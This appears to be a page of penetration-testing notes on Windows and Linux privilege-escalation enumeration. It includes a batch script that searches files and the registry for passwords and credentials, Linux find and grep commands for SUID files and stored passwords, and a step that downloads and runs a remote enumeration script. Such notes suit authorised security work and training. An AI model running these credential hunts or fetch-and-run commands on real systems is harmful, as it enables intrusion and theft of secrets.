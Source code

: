   ```bat
  echo --------- net config Workstation ---------  > report.txt
  net config Workstation  >> report.txt
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
  hostname >> report.txt
  net users >> report.txt
  ipconfig /all >> report.txt
  route print >> report.txt
  arp -A >> report.txt
  netstat -ano >> report.txt
  netsh firewall show state >> report.txt	
  netsh firewall show config >> report.txt
  schtasks /query /fo LIST /v >> report.txt
  tasklist /SVC >> report.txt
  net start >> report.txt
  DRIVERQUERY >> report.txt
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
  dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
  findstr /si password *.xml *.ini *.txt >> report.txt
  reg query HKLM /f password /t REG_SZ /s >> report.txt
  reg query HKCU /f password /t REG_SZ /s >> report.txt

  sc qc Spooler >> report.txt
  accesschk.exe -ucqv Spooler >> report.txt
  ```

- References:
  - [https://medium.com/@hakluke](mailto:https://medium.com/@hakluke)
  - <https://daya.blog/2018/01/06/windows-privilege-escalation/>
  - <https://pentestlab.blog/2017/04/19/stored-credentials/>
  - <https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/>
  - <https://www.abatchy.com/>
  - <https://gist.github.com/egre55>
  - <https://github.com/egre55/ultimate-file-transfer-list>
  - <https://lolbas-project.github.io/>
  - <https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/>
  - <https://github.com/GhostPack/Seatbelt>
  - <https://github.com/rasta-mouse/Watson>
  - <http://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html>
  - <https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb>

## File Enumeration

- Find UID 0 files root execution
  - `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`
- Get handy linux file system enumeration script (/var/tmp)  
  - `wget https://highon.coffee/downloads/linux-local-enum.sh`
  - `chmod +x ./linux-local-enum.sh`
  - `./linux-local-enum.sh`
- Find executable files updated in August  
  - `find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug`
- Find a specific file on linux  
  - `find /. -name suid\*`
- Find all the strings in a file  
  - `strings <filename>`
- Determine the type of a file  
  - `file <filename>`
- Find all files with "password" in directory
  - `grep -Ri password . | grep -v Lang`
